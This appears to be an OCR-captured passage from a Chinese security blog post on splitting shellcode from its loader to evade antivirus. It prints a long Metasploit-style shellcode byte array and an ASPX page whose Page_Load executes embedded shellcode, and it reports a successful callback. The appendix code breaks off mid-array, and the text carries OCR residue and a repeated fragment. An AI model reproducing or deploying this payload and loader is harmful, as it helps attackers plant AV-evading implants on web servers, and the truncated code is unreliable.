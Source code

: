     0x79,0x83,0xc2,0x04,0x31,0x42,0x15,0x03,0x42,0x15,0x94,0xeb,0x83,0x64,0x7e,
    0x17,0xee,0x5e,0xa8,0xce,0x7a,0x7b,0xa0,0xae,0xab,0x4a,0xf9,0x23,0x2f,0xa3,
    0x05,0xf2,0x58,0x2d,0xf6,0x82,0xb7,0xaf,0x3d,0x91,0x7c,0x80,0x6a,0xd8,0xba,
    0x3b,0x5a,0xda,0xb6,0xca,0xc8,0xeb,0x0d,0x8c,0x2a,0x94,0xc2,0x85,0x87,0xbc,
    0x25,0xd1,0x6e,0x64,0xfe,0xc0,0xf6,0x5e,0x9f,0x15,0x80,0x17,0x8f,0xaa,0xae,
    0xff,0x22,0x6b,0x6b,0x46,0x14,0x4c,0x66,0x50,0xcb,0x1f,0x29,0x00,0x27,0x4c,
    0x19,0x12,0x09,0x98,0x38,0x3e,0x6c,0xa2,0x22,0x60,0xbf,0x99,0xdb,0xe7,0xc5,
    0xa2,0x46,0x18,0xbd,0xc4,0xae,0xd7,0x82,0xe3,0xbd,0xfe,0x40,0x33,0xf6,0xd2,
    0x7a,0x6b,0xe1,0x2f,0xf9,0x4b,0x8b,0xc3,0x57,0x26,0xfe,0xfd,0x91,0xf7,0x93,
    0x4a,0xe1,0x85,0xeb,0x68,0x16,0x42,0xc9,0x6f,0xac,0xef,0x28,0x05,0x46,0x76,
    0x1b,0xa3,0xb9,0xe9,0xbf,0x1a,0x56,0x3e,0xdc,0x4d,0xf3,0x9f,0x1b,0x09,0x55,
    0x63,0x07,0xa3,0x59,0xbc,0x57,0xad,0x72,0x53,0x6b,0xff,0x49,0x10,0x47,0x21,
    0x81,0xb8,0x0e,0x98,0xec,0x03,0xa3,0x9f,0x90,0xa3,0x15,0xc4,0x7d,0x87,0x5c,
    0xcd,0xfe,0x32,0xca,0x11,0xf3,0x14,0x20,0xc8,0x92,0x36,0x88,0xe8,0xa1,0xad,
    0xac,0x46,0x19,0x9f,0x04,0x76,0x01,0x41,0x3d,0x3a,0x7d,0x80,0xa2,0x4e,0x24,
    0xcb,0x6b,0xe7,0xc9,0xc8,0xa4,0x01,0x17,0xb3,0x3a,0xd9,0x8e,0x9b,0x13,0x7b,
    0xbf,0x49,0xf3,0xa9,0x71,0x57,0x49,0x54,0x60,0x32,0xf4,0x4e,0xfa,0x76,0xf8,
    0x38,0x7c,0xb7,0x6b,0xac,0xc1,0x27,0x6b,0xae,0x80,0x10,0x85,0x98,0x61,0x42,
    0x1e,0x1e,0xb0,0x58,0x6b,0xff,0x92,0x68,0xa5,0x29,0x45,0x99,0x9c,0xa2,0xc0,
    0x29,0x53,0xc3,0x4b,0x76,0x72,0x17,0x60,0x3d,0xd8,0x11,0xce,0xc0,0xe6,0x34,
    0xa1,0x26,0x65,0x98,0x79,0xf6,0x58,0x92,0x41,0x04,0xa0,0xf0,0x3d,0xf1,0x44,
    0xb9,0x63,0x42,0x1a,0xac,0xad,0x67,0x98,0x8f,0x27,0x73,0xdd,0x54,0x61,0x65,
    0xd1,0x72,0xc5,0x0f,0x8a,0xd3,0x80,0x6a,0xc3,0xf6,0x44,0x2f,0x1a,0x6a,0xe6,
    0xfa,0x6c,0xa5,0x95,0x54,0x47,0x54,0xbf,0x66,0x78,0xfd,0x40,0x10,0x62,0xe8,
    0xc0,0x93,0xa8,0x80,0xb9,0x37,0x4c,0x47,0x7b,0x61,0xc1,0x44,0x13,0x17,0x7f,
    0xa2,0x73,0xcd,0x76,0x5f,0x2a,0x98,0x92,0x3e,0x09,0xa3,0x60,0xeb,0x41,0x1a,
    0xf4,0xcb,0x6f,0x96,0xc6,0x3c,0xf0,0xda,0xc6,0x1c,0x1c,0xb6,0xa0,0x64,0x67,
    0x7b,0xdc,0xe2,0x43,0xf1,0xee,0x3b,0x93,0xb9,0x95,0x29,0x01,0x97,0x8c,0x09,
    0x72,0xee,0x78,0x1a,0x13,0x60,0xa6,0xac,0x05,0x99,0x6c,0x28,0x81,0x29,0x5d,
    0x37,0x89,0x2a,0x3d,0xbf,0x0e,0xc7,0xeb,0x9f,0x44,0x1d,0xb3,0x4d,0x1a,0xbc,
    0xe2,0x22,0xb2,0xb3,0xa6,0x43,0x3e,0x46,0xc5,0x0d,0xba,0x87,0xd5,0x6d,0x70,
    0xfe,0x87,0x58,0x2c,0x4b,0x8c,0x2d,0x56,0x21,0x4a,0xbf,0x45,0x8c,0xd9,0x9e,
    0xa0,0xe4,0x20,0x6b,0x7f,0xfb,0xd0,0x1e,0x88,0x13,0x6e,0x11,0xe9,0xd9 };
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008163620307.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**其中分离shellcode。构造如下：**-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008163635366.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008163641100.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020100816364617.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
上线成功，关于分离免杀的思路不仅仅限制于脚本，pe文件。包括powershell等。这是每一个安全从业者应该考虑的问题。

**附录：Source code**

    <%@ Page Language="C#" AutoEventWireup="true" Inherits="System.Web.UI.Page" %>
    <%@ Import Namespace="System" %>
    <%@ Import Namespace="System.Runtime.InteropServices" %>
    <script runat="server">
    delegate int MsfpayloadProc();
    protected void Page_Load(object sender, EventArgs e)
    {
        byte[] buf = codeBytes[509] {
    0xd9,0xcc,0xd9,0x74,0x24,0xf4,0x5a,0xb8,0x76,0x1e,0x3d,0x54,0x2b,0xc9,0xb1,
    0x79,0x83,0xc2,0x04,0x31,0x42,0x15,0x03,0x42,0x15,0x94,0xeb,0x83,0x64,0x7e,
    0x17,0xee,0x5e,0xa8,0xce,0x7a,0x7b,0xa0,0xae,0xab,0x4a,0xf9,0x23,0x2f,0xa3,
    0x05,0xf2,0x58,0x2d,0xf6,0x82,0xb7,0xaf,0x3d,0x91,0x7c,0x80,0x6a,0xd8,0xba,
    0x3b,0x5a,0xda,0xb6,0xca,0xc8,0xeb,0x0d,0x8c,0x2a,0x94,0xc2,0x85,0x87,0xbc,
    0x25,0xd1,0x6e,0x64,0xfe,0xc0,0xf6,0x5e,0x9f,0x15,0x80,0x17,0x8f,0xaa,0xae,
    0xff,0x22,0x6b,0x6b,0x46,0x14,0x4c,0x66,0x50,0xcb,0x1f,0x29,0x00,0x27,0x4c,
    0x19,0x12,0x09,0x98,0x38,0x3e,0x6c,0xa2,0x22,0x60,0xbf,0x99,0xdb,0xe7,0xc5,
    0xa2,0x46,0x18,0xbd,0xc4,0xae,0xd7,0x82,0xe3,0xbd,0xfe,0x40,0x33,0xf6,0xd2,
    0x7a,0x6b,0xe1,0x2f,0xf9,0x4b,0x8b,0xc3,0x57,0x26,0xfe,0xfd,0x91,0xf7,0x93,